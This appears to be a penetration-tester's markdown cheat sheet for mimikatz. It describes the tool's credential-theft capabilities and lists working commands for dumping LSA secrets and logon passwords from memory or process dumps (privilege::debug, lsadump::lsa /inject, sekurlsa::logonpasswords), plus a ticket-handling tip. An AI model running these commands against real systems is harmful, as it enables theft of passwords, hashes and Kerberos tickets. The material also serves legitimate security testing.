 # mimikatz

## Overview

 Extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.


## Implementations

Original tool for windows:

    https://github.com/ParrotSec/mimikatz

Impacket collection of python tools implements mimikatz.py


## Usage

It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. 

    log <filename>.log


    sekurlsa::minidump <process_dump>   loads process dump
    sekurlsa::logonpasswords    Searches for passwords


To do a lsa dump


    privilege::debug
    lsadump::lsa /inject

or

    privilege::debug
    sekurlsa::logonpasswords

## Tips

Convert base64 tickets to be cracked in linux hosts:

    echo "<base64 blob>" | tr -d \\n
